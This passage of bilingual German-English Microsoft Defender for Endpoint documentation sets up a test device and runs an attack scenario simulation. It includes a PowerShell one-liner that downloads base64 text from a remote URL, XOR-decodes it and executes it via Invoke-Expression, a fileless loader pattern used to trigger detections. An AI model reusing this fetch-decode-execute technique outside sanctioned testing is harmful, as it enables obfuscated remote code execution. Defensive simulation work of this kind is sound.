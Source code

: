    1. <span data-ttu-id="7bdd4-144">[Aktivieren Sie Windows Defender Antivirus](https://docs.microsoft.com/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features).</span><span class="sxs-lookup"><span data-stu-id="7bdd4-144">[Turn on Windows Defender Antivirus](https://docs.microsoft.com/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features).</span></span> <span data-ttu-id="7bdd4-145">Wenn Sie Probleme beim Aktivieren von Windows Defender Antivirus haben, lesen Sie dieses [Problembehandlungsthema.](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy)</span><span class="sxs-lookup"><span data-stu-id="7bdd4-145">If you are having trouble enabling Windows Defender Antivirus, see this [troubleshooting topic](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).</span></span>

   1. <span data-ttu-id="7bdd4-146">Stellen Sie sicher, dass das Testgerät [in Microsoft Defender for Endpoint onboarded ist.](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints)</span><span class="sxs-lookup"><span data-stu-id="7bdd4-146">Verify that the test device is [onboarded to Microsoft Defender for Endpoint)](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).</span></span>

<span data-ttu-id="7bdd4-147">Wenn Sie einen vorhandenen Mandanten verwenden und Gerätegruppen implementieren, erstellen Sie eine dedizierte Gerätegruppe für das Testgerät, und übertragen Sie sie in der Konfigurations-UX auf die oberste Ebene.</span><span class="sxs-lookup"><span data-stu-id="7bdd4-147">If you use an existing tenant and implement device groups, create a dedicated device group for the test device and push it to top level in configuration UX.</span></span>

## <a name="run-the-attack-scenario-simulation"></a><span data-ttu-id="7bdd4-148">Ausführen der Simulation des Angriffsszenarios</span><span class="sxs-lookup"><span data-stu-id="7bdd4-148">Run the attack scenario simulation</span></span>

<span data-ttu-id="7bdd4-149">So führen Sie die Simulation des Angriffsszenarios aus:</span><span class="sxs-lookup"><span data-stu-id="7bdd4-149">To run the attack scenario simulation:</span></span>

1. <span data-ttu-id="7bdd4-150">Melden Sie sich mit dem Testbenutzerkonto am Testgerät an.</span><span class="sxs-lookup"><span data-stu-id="7bdd4-150">Log in to the test device with the test user account.</span></span>

2. <span data-ttu-id="7bdd4-151">Öffnen Sie Windows PowerShell Fenster auf dem Testgerät.</span><span class="sxs-lookup"><span data-stu-id="7bdd4-151">Open a Windows PowerShell window on the test device.</span></span>

3. <span data-ttu-id="7bdd4-152">Kopieren Sie das folgende Simulationsskript:</span><span class="sxs-lookup"><span data-stu-id="7bdd4-152">Copy the following simulation script:</span></span>

   ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
   = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
   -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
   $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
   $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```
